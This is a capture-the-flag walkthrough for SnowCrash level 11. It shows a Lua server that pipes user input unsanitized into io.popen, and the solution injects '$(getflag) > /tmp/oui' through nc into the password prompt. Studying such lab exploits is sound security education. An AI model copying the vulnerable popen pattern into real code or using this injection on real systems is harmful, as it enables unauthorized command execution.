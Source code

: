 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```


A server seems to be server set up on our localhost on port 5151. It will ask for a passord, will sends this password in a hash function, will apply a sha1sum on it, will return the 40 first characters of it, and will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

popen is known for its vunerability to command injections, as it will execute code (see below). </br>
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So io.popen starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program level11.lua will execute `echo "..pass.." | sha1sum`. We saw in a previous level that echo with double quote will execute any command which is written like this `$(command)`.


## Solution

So we should listen to the port 5151: </br>
`nc localhost 5151`</br>
`Password: $(getflag)`</br>
don't return the flag.

Maybe on a different file: </br>
`nc localhost 5151`</br>
`Password: $(getflag) > /tmp/oui`</br>
`cat /tmp/oui` gives us the flag.
